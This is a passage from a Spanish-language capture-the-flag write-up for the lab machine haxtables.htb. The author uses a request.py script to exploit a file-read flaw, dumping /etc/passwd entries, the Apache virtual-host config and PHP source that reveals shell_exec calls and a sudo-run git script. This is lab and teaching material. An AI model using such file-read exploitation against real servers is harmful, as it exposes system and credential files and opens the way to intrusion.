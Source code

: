```shell
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
svc:x:1000:1000:svc:/home/svc:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:120:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
Intentamos ver archivos de apache2 para obtener otro subdominio o ruta de directorios importantes.

```shell
sudo python3 request.py /etc/apache2/sites-available/000-default.conf
<SNIP>
<VirtualHost *:80>
	ServerName api.haxtables.htb
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/api
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
        ServerName image.haxtables.htb
        ServerAdmin webmaster@localhost
        
	DocumentRoot /var/www/image

```
En esta pudimos observar un directorio del subdominio image, podemos apuntar al index.php para observar cómo se maneja. Al momento podemos ver que apunta al recurso utils.php y este apunta a una carpeta scripts donde tiene un repositorio .git.

```shell
❯ sudo python3 request.py /var/www/image/index.php
<?php 

include_once 'utils.php';

include 'includes/coming_soon.html';

?>
❯ sudo python3 request.py /var/www/image/utils.php
<?php

<SNIP>
function git_status()
{
    $status = shell_exec('cd /var/www/image && /usr/bin/git status');
    return $status;
}

function git_log($file)
{
    $log = shell_exec('cd /var/www/image && /ust/bin/git log --oneline "' . addslashes($file) . '"');
    return $log;
}

function git_commit()
{
    $commit = shell_exec('sudo -u svc /var/www/image/scripts/git-commit.sh');
    return $commit;
}
```